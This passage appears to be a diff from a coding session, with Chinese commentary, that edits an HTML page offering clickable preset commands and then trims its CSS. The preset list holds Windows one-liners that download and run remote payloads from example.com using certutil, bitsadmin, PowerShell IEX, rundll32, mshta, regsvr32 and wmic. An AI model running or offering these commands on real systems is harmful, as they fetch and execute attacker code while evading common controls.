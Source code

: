 ```diff
-                                     <div class="command-item" data-command="wmic process call create &quot;powershell -c IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')&quot;">
-                                         <div class="command-title">执行远程PowerShell (wmic)</div>
-                                         <div class="command-code">wmic process call create "powershell -c IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')"</div>
-                                     </div>
+                                     <div class="command-item" onclick="document.getElementById('input-command').value=this.innerText;document.getElementById('input-command').dispatchEvent(new Event('input'));">certutil -urlcache -split -f http://example.com/payload.exe C:\Windows\Temp\payload.exe</div>
+                                     <div class="command-item" onclick="document.getElementById('input-command').value=this.innerText;document.getElementById('input-command').dispatchEvent(new Event('input'));">powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://example.com/payload.exe', 'C:\Windows\Temp\payload.exe')"</div>
+                                     <div class="command-item" onclick="document.getElementById('input-command').value=this.innerText;document.getElementById('input-command').dispatchEvent(new Event('input'));">bitsadmin /transfer myJob /download /priority high http://example.com/payload.exe C:\Windows\Temp\payload.exe</div>
+                                     <div class="command-item" onclick="document.getElementById('input-command').value=this.innerText;document.getElementById('input-command').dispatchEvent(new Event('input'));">curl -o C:\Windows\Temp\payload.exe http://example.com/payload.exe</div>
+                                     <div class="command-item" onclick="document.getElementById('input-command').value=this.innerText;document.getElementById('input-command').dispatchEvent(new Event('input'));">rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')");</div>
+                                     <div class="command-item" onclick="document.getElementById('input-command').value=this.innerText;document.getElementById('input-command').dispatchEvent(new Event('input'));">mshta vbscript:Close(Execute("GetObject(\"script:http://example.com/payload.sct\")"));</div>
+                                     <div class="command-item" onclick="document.getElementById('input-command').value=this.innerText;document.getElementById('input-command').dispatchEvent(new Event('input'));">regsvr32 /s /u /i:http://example.com/payload.sct scrobj.dll</div>
+                                     <div class="command-item" onclick="document.getElementById('input-command').value=this.innerText;document.getElementById('input-command').dispatchEvent(new Event('input'));">wmic process call create "powershell -c IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')"</div>
                                  </div>
                              </div>
```

---

现在让我们修改CSS样式,让命令列表更简洁易用:

---

```diff
  /* 常用命令列表样式 */
  .command-list {
-     margin-bottom: 20px;
-     background: rgba(255, 255, 255, 0.1);
-     border-radius: 8px;
-     padding: 15px;
- }
- 
- .command-list h3 {
-     margin: 0 0 15px 0;
-     color: white;
-     font-size: 18px;
+     margin: 10px 0;
  }
  
  .command-grid {
```